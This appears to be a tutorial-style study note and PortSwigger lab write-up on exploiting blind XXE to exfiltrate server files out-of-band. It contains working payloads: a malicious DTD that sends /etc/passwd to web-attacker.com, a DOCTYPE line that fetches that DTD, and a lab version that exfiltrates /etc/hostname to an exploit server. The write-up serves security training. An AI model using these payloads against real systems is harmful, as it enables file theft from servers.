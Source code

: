 ```yaml
---
tags: ["blind", "XXE", "OAST"]
image: https://cdn.acunetix.com/wp-content/uploads/2017/07/11110651/XXE_600x315.png
---
```


## Exploiting blind XXE to exfiltrate data out-of-band

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

(Here `&#x25;` means `%`)

This DTD carries out the following steps:

- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
- Uses the `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
- Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

`http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>`

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the `/etc/passwd` file is transmitted to the attacker's server.

:::info

This technique might not work with some file contents, including the newline characters contained in the `/etc/passwd` file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as `/etc/hostname` can be targeted instead.

:::

## Challenge

> This lab has a "Check stock" feature that parses XML input but does not display the result.
> To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

--> So first we have to host our dtd on our server and for that we have given `exploit server` from portswigger where we can host our dtd and check the access logs.

So i made this payload:

```markup
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-acf71f8f1fc66945c0330e9901bd000d.web-security-academy.net/?x=%file;'>">
%eval;
%exfiltrate;
```

Also don't forget to change the MIME type to `Content-Type: application/xml-dtd`

After that click `store` and now we have made our dtd and hosted on exploit server and i have named it `exploit.dtd`.

![](Attachments/Pastedimage20220302130440.png)

--> Now goto main application and intercept the `check stock` request and add the payload which will make request to our hosted dtd.

So i made this payload:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-acf71f8f1fc66945c0330e9901bd000d.web-security-academy.net/exploit.dtd"> %xxe;]>
```

After forwarding request, come back to exploit server and check the access logs and boom we got the result of `/etc/hostname`

![](Attachments/Pastedimage20220302130414.png)

And we solved the lab!
